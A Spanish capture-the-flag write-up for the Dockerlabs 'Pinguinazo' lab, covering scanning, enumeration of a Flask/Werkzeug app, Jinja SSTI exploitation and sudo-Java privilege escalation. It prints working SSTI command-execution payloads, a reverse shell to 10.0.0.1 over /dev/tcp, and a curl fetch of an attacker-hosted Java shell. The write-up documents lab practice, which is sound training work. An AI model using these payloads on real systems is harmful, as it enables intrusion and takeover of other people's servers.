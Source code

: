 # Pinguinazo

### Descripción

Pequeño CTF en modo **[easy](https://mega.nz/file/oGMWiKoJ#l02GwzicvsgLaczCjTSqaJNl5-NGajklpOY3A3Tu9to)** de Dockerlabs.

---

## 🔎 Reconocimiento

La máquina objetivo se encuentra correctamente desplegada dentro de la red de laboratorio (en este caso, utilizando Docker).  
Dado que la dirección IP es conocida o fácilmente identificable dentro de este entorno controlado, esta fase se clasifica como **reconocimiento pasivo**.

![Reconocimiento](https://i.imgur.com/rs4PSAQ.png)

---

## 📡 Escaneo

Se realizó un escaneo con **Nmap** para identificar puertos abiertos y servicios:

```bash
nmap -p- --open -sC -sV --min-rate 5000 -n -Pn 172.17.0.2
```

El **target** corresponde a la IP de la máquina víctima: **172.17.0.2**

Resultados principales:

- Puerto **5000** abierto.
- Servicio en ejecución: aplicación Python con **Flask** y referencias a **Werkzeug**.

![Scan1](https://i.imgur.com/6UnWPSU.png)  
![Scan2](https://i.imgur.com/fZBZZWQ.png)

Incluso se observó la dirección MAC del objetivo.

---

## 📂 Enumeración

El siguiente paso fue buscar directorios y recursos ocultos.

Con **Gobuster**:

```bash
gobuster dir -u "http://172.17.0.2"   -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt   -t 20 -x php,txt,html,php.bak
```

El resultado fue limitado, por lo que se usó **dirb**, que reveló un recurso interesante:

![Dirb](https://i.imgur.com/FrTLh5h.png)

Se identificó `/console`, correspondiente a la **consola interactiva de Werkzeug**.  
En el código fuente de la web se encontraron datos sensibles como la **SECRET**, probablemente utilizada en la generación del PIN de acceso.

![Werkzeug1](https://i.imgur.com/qZt5KIJ.png)  
![Werkzeug2](https://i.imgur.com/C0b9r7G.png)

Además, la página principal contenía un formulario muy básico, con los siguientes puntos débiles:

- Input de correo en modo _readOnly_ (correo de administrador expuesto).
- Inputs sin validaciones (no requeridos).
- El campo _nombre_ parece usarse directamente como parámetro en el renderizado.

![Form1](https://i.imgur.com/KI8LbEo.png)  
![Form2](https://i.imgur.com/hekE1S3.png)

---

## 💥 Explotación

Se consideraron dos caminos:

1. **Bypass del PIN de Werkzeug**

   - Basado en parámetros como:
     - Usuario que ejecuta la app.
     - SECRET de la aplicación.
     - Dirección MAC de la máquina.
   - Existen scripts para generar posibles PINs, pero requieren tiempo y múltiples intentos válidos.

   ![Werkzeug Bypass](https://i.imgur.com/igjHHlp.png)

2. **Explotación del formulario principal**  
   Se probaron inyecciones:

   - **XSS**: `<script>alert('pwned');</script>`
   - **SSTI**: `{{ 2 * 8 }}`

   La inyección SSTI funcionó, confirmando vulnerabilidad en el render de templates.

![SSTI1](https://i.imgur.com/naclOMB.png)  
![SSTI2](https://i.imgur.com/0B2VOOy.png)

Ejemplo de payload ejecutando comandos del sistema:

```jinja
{{ config.__init__.__globals__['os'].popen('whoami').read() }}
```

Con Burp Suite (Repeater) se probó leer `/etc/passwd`:

![passwd1](https://i.imgur.com/rEyQTRG.png)  
![passwd2](https://i.imgur.com/aTAu5Gd.png)

✅ Quedó claro que la explotación vía SSTI era más directa y efectiva.

---

### 🌀 Reverse Shell

Se intentó una reverse shell usando la inyección SSTI. El payload exitoso fue:

```jinja
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen(
  'bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"').read() }}
```

**Consideraciones previas**:

- Definir la IP de escucha y puerto.
- Levantar el listener con:
  ```bash
  nc -lvnp 8080
  ```

![ReverseShell1](https://i.imgur.com/UZWpEfu.png)  
![ReverseShell2](https://i.imgur.com/QNAHOy2.png)

Con esto se obtuvo acceso inicial a la terminal.

---

## 🔝 Escalación de privilegios

Se buscaron binarios con permisos SUID:

```bash
find / -perm -4000 2>/dev/null
```

![SUID](https://i.imgur.com/3B74T7F.png)

Aunque algunos binarios no eran explotables, se observó `/usr/bin/sudo` en la lista.  
Al ejecutar:

```bash
sudo -l
```

Se descubrió que la shell permitía ejecutar **Java** como root.

![SudoJava](https://i.imgur.com/nnztH1C.png)

Lo ideal sería aplicar una reverse shell ejecutada con sudo para optener los permisos de root, se consultó [reveshells]() para generar una donde se pueda acceder mediante sudo.

![SudoJava](https://i.imgur.com/3RroNqA.png)

**Nota**: Se tuvo en cuenta que no había una terminal interactiva en la máquina victima por lo que exportar TERM sería una opción sin embargo, en este caso se creó la shell desde máquina atacante y en la raiz del proyecto se ejecutó un `python3 -m http.server PORT` para servir el archivo.

Luego se obtuvo desde la máquina victima con `curl -O http://10.0.0.1:PORT/magic_shell.java`

Con la shell en la máquina victima se ejecutó con `sudo java magic_shell.java` y a pesar de generar warnings, se obtuvo la shell con el mítico _root_

![SudoJava](https://i.imgur.com/lgH3sZ1.png)

## ![SudoJava](https://i.imgur.com/wVFMqtT.png)
